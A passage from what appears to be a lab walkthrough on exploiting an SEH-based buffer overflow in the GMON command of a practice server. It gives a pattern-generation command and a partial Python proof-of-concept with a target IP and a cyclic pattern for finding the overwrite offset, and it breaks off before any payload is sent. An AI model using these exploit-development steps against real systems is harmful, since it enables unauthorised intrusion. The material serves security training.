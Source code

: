 This part is quite similar to what we did in TRUN in order to figure out the EIP overwrite offset. 

We have to figure out the offset between the start of our buffer and the overwritten SEH record.

Create a unique byte pattern with the length of our AAAA buffer:

```bash
msf-pattern_create -l 4096
```

Plug it into our PoC:

```python
#!/usr/bin/env python3
# GMON - SEH based buffer overflow
# Step 2 - discover nseh offset
import socket

size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n"

# msf-pattern_create -l 4096
pattern = b""
pattern += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
pattern += b"d3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
pattern += b"6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"
pattern += b"Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A"
pattern += b"n3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq"
pattern += b"6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9"
pattern += b"Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A"
pattern += b"x3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba"
pattern += b"6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9"
pattern += b"Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"
pattern += b"h3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk"
pattern += b"6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9"
pattern += b"Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2B"
pattern += b"r3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu"
pattern += b"6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9"
pattern += b"By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2C"
pattern += b"b3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce"
pattern += b"6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9"
pattern += b"Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2C"
pattern += b"l3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co"
```